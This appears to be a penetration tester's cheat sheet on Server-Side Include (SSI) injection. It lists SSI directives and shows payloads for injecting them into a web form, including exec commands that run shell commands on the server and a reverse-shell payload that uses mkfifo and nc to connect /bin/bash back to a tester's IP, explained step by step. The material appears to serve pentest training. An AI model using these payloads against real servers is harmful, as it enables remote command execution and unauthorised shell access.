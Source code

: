 #### Including a footer
```html
<!--#include virtual="/footer.html" -->
```
#### Executing Commands
```html
<!--#exec cmd="ls" -->
```
#### Setting Variables
```html
<!--#set var="name" value="Rich" -->
```
#### Including Virtual Files (Same Directory)
```html
<!--#include virtual="file_to_include.html" -->
```
#### Including Files (Same Directory)
```html
<!--#include file="file_to_include.html" -->
```
#### Print all Variables
```html
<!--#printenv -->
```
### Injection Exploitation Form
![[SSI Example Form.png]]
#### Injects
```html
<!--#echo var="DATE_LOCAL" -->
```

```html
<!--#printenv -->
```
![[dtg ssi.png]]
#### Reverse Shell
```html
<!--#exec cmd="mkfifo /tmp/foo;nc <PENTESTER IP> <PORT> 0</tmp/foo|/bin/bash 1>/tmp/foo;rm /tmp/foo" -->
```
- `mkfifo /tmp/foo`: Create a FIFO special file in` /tmp/foo`
- `nc <IP> <PORT> 0</tmp/foo`: Connect to the pentester machine and redirect the standard input descriptor
- `| bin/bash 1>/tmp/foo`: Execute /bin/bash redirecting the standard output descriptor to `/tmp/foo
- `rm /tmp/foo`: Cleanup the FIFO file`
#### Execute other commands
```HTML
<!--#exec cmd="ls -la" -->
```
